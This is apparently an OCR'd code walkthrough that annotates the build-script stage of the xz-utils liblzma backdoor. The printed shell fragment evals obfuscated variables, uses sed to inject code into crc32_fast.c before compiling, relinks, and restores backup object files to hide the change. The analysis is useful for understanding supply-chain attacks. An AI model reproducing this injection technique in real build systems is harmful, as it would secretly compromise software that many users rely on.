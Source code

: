```
        cp .libs/liblzma_la-crc32_fast.o .libs/liblzma_la-crc32-fast.o || true
        eval $BPep
        if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
            sed "/include \"crc32_arm64.h\"/a \\$V" | \
            sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
            $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
```

- Do same process when injecting script in `src/liblzma/check/crc64_fast.c`
- But there is no malicious object file named `liblzma_la-crc32.o` like `liblzma_la-crc64-fast.o`

```
            eval $RgYB
            if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
```

- If relink to .la file is available

```
                if test ! -f .libs/liblzma.so; then
                    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
                fi
```

- If the link succeed but didn't write the file, assume it failed and restore the backups.

```
                rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
```

- Remove the libraries.
- The `Makefile` link step is presumably going to happen next and recreate them.

```
            else
                mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
                mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
            fi
```

- This is the `else` for the link failing. Restore from backups.

```
            rm -f .libs/liblzma_la-crc32-fast.o || true
            rm -f .libs/liblzma_la-crc64-fast.o || true
```

- Inner compiler success case. Delete backups.

```
        else
            mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
            mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
        fi
```

